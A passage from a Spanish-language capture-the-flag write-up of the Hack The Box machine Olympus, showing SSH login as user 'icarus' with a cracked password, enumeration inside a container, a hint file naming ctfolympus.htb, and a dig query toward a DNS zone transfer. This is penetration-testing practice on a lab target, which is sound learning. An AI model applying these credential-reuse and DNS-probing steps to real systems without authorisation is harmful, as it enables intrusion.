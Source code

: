 ```bash
      EAPOL HMAC     : 1D 54 03 3C B2 5E A2 BC D5 86 5A 09 67 82 12 85 
```

Ya tenemos otra posible contraseña, asi que la guardamos. Recordando, la máquina tiene el pueto 2222 abierto asociado al servicio SSH, por lo que podemos probar conectarnos a dicho puerto como el usuario ***icarus*** y utilizar las dos posibles contraseñas obtenidas:

```bash
❯ ssh icarus@10.10.10.83 -p2222
The authenticity of host '[10.10.10.83]:2222 ([10.10.10.83]:2222)' can't be established.
ECDSA key fingerprint is SHA256:uyZtmsYFq/Ac58+SEgLsL+NK05LlH2qwp2EXB1DxlO4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.83]:2222' (ECDSA) to the list of known hosts.
icarus@10.10.10.83's password: 
Last login: Sun Apr 15 16:44:40 2018 from 10.10.14.4
icarus@620b296204a3:~$ whoami
icarus
icarus@620b296204a3:~$
```

Ya ingresamos a la máquina como el usuario ***icarus***; sin embargo, nos damos cuenta de que nos encontramos en otro contenedor debido al prompt `icarus@620b296204a3:~` y la dirección IP:

```bash
icarus@620b296204a3:~$ hostname -I
172.19.0.2 
icarus@620b296204a3:~$ 
```

En el directorio del usuario vemos el archivo `help_of_the_gods.txt`, el cual nos podría dar otra pista; en este caso el dominio **ctfolympus.htb**. Así que lo metemos en el `/etc/hosts` y debemos estar pensando en un posible *Domain Zone Transfer* debido a que se encuentra abierto el puerto 53.

```bash
icarus@620b296204a3:~$ pwd
/home/icarus
icarus@620b296204a3:~$ ls -l
total 4
-rw-r--r-- 1 root root 85 Apr 15  2018 help_of_the_gods.txt
icarus@620b296204a3:~$ cat help_of_the_gods.txt 

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb

icarus@620b296204a3:~$
```

```bash
❯ dig @10.10.10.83 ctfolympus.htb

; <<>> DiG 9.16.15-Debian <<>> @10.10.10.83 ctfolympus.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 17763
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ctfolympus.htb.                        IN      A

;; ANSWER SECTION:
ctfolympus.htb.         86400   IN      A       192.168.0.120

```